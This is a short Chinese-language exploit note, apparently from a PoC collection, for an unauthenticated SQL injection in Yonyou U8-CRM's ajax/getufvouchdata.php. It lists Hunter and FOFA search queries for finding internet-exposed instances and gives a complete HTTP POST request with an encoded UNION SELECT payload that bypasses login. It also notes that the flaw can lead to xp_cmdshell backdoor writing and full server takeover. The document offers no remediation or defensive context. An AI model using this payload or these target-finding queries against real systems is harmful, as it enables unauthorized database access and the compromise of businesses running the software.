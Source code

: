 # 用友U8-CRM系统getufvouchdata.php存在SQL注入漏洞

用友U8-CRM  ajax/getufvouchdata.php 文件多个方法存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## hunter

```jade
app.name="用友 CRM"
```

## fofa

```jade
title="用友U8CRM"
```

## poc

```javascript
POST /ajax/getufvouchdata.php?DontCheckLogin=1&Action=getRelations HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

pID=1%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28120%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28104%29%2BCHAR%2867%29%2BCHAR%2871%29%2BCHAR%28117%29%2BCHAR%2866%29%2BCHAR%28115%29%2BCHAR%2882%29%2BCHAR%2879%29%2BCHAR%28112%29%2BCHAR%28109%29%2BCHAR%2897%29%2BCHAR%2869%29%2BCHAR%2880%29%2BCHAR%2880%29%2BCHAR%28104%29%2BCHAR%2872%29%2BCHAR%2877%29%2BCHAR%2886%29%2BCHAR%2866%29%2BCHAR%2865%29%2BCHAR%28118%29%2BCHAR%2889%29%2BCHAR%28101%29%2BCHAR%28104%29%2BCHAR%28106%29%2BCHAR%28121%29%2BCHAR%2880%29%2BCHAR%2879%29%2BCHAR%28121%29%2BCHAR%28100%29%2BCHAR%2868%29%2BCHAR%2868%29%2BCHAR%28117%29%2BCHAR%2876%29%2BCHAR%28122%29%2BCHAR%28110%29%2BCHAR%2872%29%2BCHAR%28109%29%2BCHAR%2876%29%2BCHAR%2871%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28122%29%2BCHAR%28112%29%2BCHAR%28113%29--%20uSHu&cID=1
```

![image-20241128092143696](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280921776.png)